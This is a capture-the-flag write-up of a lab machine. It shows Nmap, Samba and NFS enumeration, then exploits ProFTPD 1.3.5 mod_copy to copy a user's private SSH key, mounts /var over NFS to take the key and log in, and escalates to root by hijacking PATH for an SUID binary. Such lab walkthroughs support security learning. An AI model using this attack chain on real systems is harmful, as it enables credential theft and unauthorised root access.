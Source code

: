 #CTF
This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

## Recon

As always we start with [[Nmap]] to scan the machine and here are the results:

```
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (EdDSA)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      35329/tcp  mountd
|   100005  1,2,3      37948/udp  mountd
|   100021  1,3,4      34655/tcp  nlockmgr
|   100021  1,3,4      35869/udp  nlockmgr
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
MAC Address: 02:A4:95:01:54:C9 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So lots of information. Did some research online about 111,139,445,2049 because I haven't seen them before and here is what I found out.

- port 111 : tcp,udp - SunRPC 
	Provides information between Unix based systems. Port is often probed, it can be used to fingerprint the Nix OS, and to obtain information about available services. Port used with NFS, NIS, or any rpc-based service.
- port 139 : tcp,udp -netbios-ss 
	NetBIOS is a protocol used for File and Print Sharing under all current versions of Windows. While this in itself is not a problem, the way that the protocol is implemented can be. There are a number of vulnerabilities associated with leaving this port open.
- port 445 : tcp - microsoft-ds
	TCP port 445 is used for direct TCP/IP MS Networking access without the need for a NetBIOS layer. The SMB (Server Message Block) protocol is used for file sharing in Windows NT/2K/XP and later. In Windows NT it ran on top of NetBT (NetBIOS over TCP/IP, ports 137, 139 and 138/udp). In Windows 2K/XP and later, Microsoft added the possibility to run SMB directly over TCP/IP, without the extra NetBT layer, for this they use TCP port 445.
- port 2049 : tcp,udp,sctp NFS
	Network File System (NFS) - remote filesystem access [[RFC 1813](http://tools.ietf.org/html/rfc1813 "RFC 1813")] [[RFC5665](http://tools.ietf.org/html/rfc5665 "RFC5665")]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.


## Enumerating Samba for shares

We are going to focus on Samba on this machine.

*Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

*Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.*

The room gives us the command to enumarate the shares of the samba share with :
`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.16.149`
and here are the results:
```
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:A4:95:01:54:C9 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.16.149\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.16.149\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.16.149\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

So we see three shares, one called anonymous which sounds promising.
Lets try to connect with:
`anosmbclient //[ip]/anonymous`
Pressing enter on the password and we are in!
We can't do much on this terminal (can't cat the file) and so we are going to download this share on our local machine with:
`smbclient //[ip]/anonymous`
And now we can cat the log.txt file that we got from the share.


Next we are going to target that 111 port.

*Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. *

We enumerate it like so:
`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.16.149`
and we get:
```
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836524.0  6877104.0  22%   16.0T        32000
MAC Address: 02:A4:95:01:54:C9 (Unknown)
```

## Gain initial access with ProFtpd

*ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.*

We are going to use [[Introductory Networking#Netcat]] to connect to the port 21 with:
`nc [ip] [port /21]`
We get the version and now we search for vulnerabilites for this version with:
`searchploit ProFTPd 1.3.5`
And we find 5 of them.

*You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). 
The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

We are going to use those 2 commands to steal the id_rsa. So inside the opened connection we 
`SITE CPFR /home/kenobi/.ssh/id_rsa` and
`SITE CPTO /var/tmp/id_rsa`  

Now we have to mount the /var folder and we do it like so:
```
mkdir /mnt/kenobiNFS  
mount [ip]:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
To connect to the machine we :
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa 
ssh -i id_rsa kenobi@[ip]
```

And we are in and get a flag!
## Privilege Escalation with Path Variable Manipulation

![](https://i.imgur.com/LN2uOCJ.png)

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: 
`find / -perm -u=s -type f 2>/dev/null`

So /usr/bin/menu looks promising. I run it and I got :
```
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

Next we :

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
And we get our final flag!
